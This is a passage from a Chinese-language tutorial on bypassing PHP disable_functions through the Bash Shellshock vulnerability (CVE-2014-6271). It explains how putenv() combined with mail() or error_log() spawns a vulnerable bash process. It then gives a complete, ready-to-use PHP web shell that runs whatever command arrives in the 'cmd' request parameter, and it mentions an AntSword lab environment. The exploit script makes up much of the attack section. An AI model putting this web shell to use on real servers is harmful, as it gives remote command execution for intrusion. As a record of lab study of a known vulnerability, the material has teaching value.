 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312130111.png-water_print](assets/1699410109-bdb522af88b42a9b147d2b5c3f38997b.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312130111.png-water_print")

## [](#4-%E5%88%A9%E7%94%A8%E7%A0%B4%E5%A3%B3%E6%BC%8F%E6%B4%9E--shellshock)4 利用「破壳漏洞」- ShellShock

### [](#41-%E5%89%8D%E6%8F%90)4.1 前提

-   Linux 操作系统
-   `putenv()`、`mail()` 或 `error_log()` 函数可用
-   目标系统的 `/bin/bash` 存在 `CVE-2014-6271` 漏洞
-   `/bin/sh -> /bin/bash` sh 默认的 shell 是 bash

### [](#42-%E5%8E%9F%E7%90%86)4.2 原理

该方法利用的 bash 中的一个老漏洞，即 Bash Shellshock 破壳漏洞（CVE-2014-6271）。

在 Bash 中一种独有的方法来定义函数 , 即 : **通过环境变量来定义函数**。当某个环境变量的值以字符串 `() {` 的格式作为开头， 那么该变量就会被当前 Bash 当作一个导出函数( `export function` ) , 该函数仅会在当前 Bash 的子进程中生效。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109011739693.png-water_print](assets/1699410109-9076970a80d66da740bde0f67cb84f99.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109011739693.png-water_print")

一般函数体内的代码不会被执行，但破壳漏洞会错误的将 `{}` 花括号外的命令进行执行。PHP 里的某些函数（例如：mail()、imap\_mail()）能调用 popen 或其他能够派生 bash 子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

EXP 脚本：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```php<br><?php<br>function runcmd($c){<br>  $d = dirname($_SERVER["SCRIPT_FILENAME"]);<br>  if(substr($d, 0, 1) == "/" && function_exists('putenv') && (function_exists('error_log') \| function_exists('mail'))){<br>    if(strstr(readlink("/bin/sh"), "bash")!=FALSE){<br>      $tmp=tempnam(sys_get_temp_dir(), 'as');<br>      putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");<br>      if (function_exists('error_log')) {<br>        error_log("a", 1);<br>      }else{<br>        mail("a@127.0.0.1", "", "", "-bv");<br>      }<br>    }else{<br>      print("Not vuln (not bash)\n");<br>    }<br>    $output = @file_get_contents($tmp);<br>    @unlink($tmp);<br>    if($output!=""){<br>      print($output);<br>    }else{<br>      print("No output, or not vuln.");<br>    }<br>  }else{<br>    print("不满足使用条件");<br>  }<br>}<br><br>// runcmd("whoami"); // 要执行的命令<br>runcmd($_REQUEST["cmd"]); // ?cmd=whoami<br>?><br>``` |

### [](#43-%E5%88%A9%E7%94%A8)4.3 利用

同样利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 里的环境：[bypass\_disable\_functions/2](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/2)

尝试使用 `http://IP:18080/?ant=system('ls');` 执行失败。
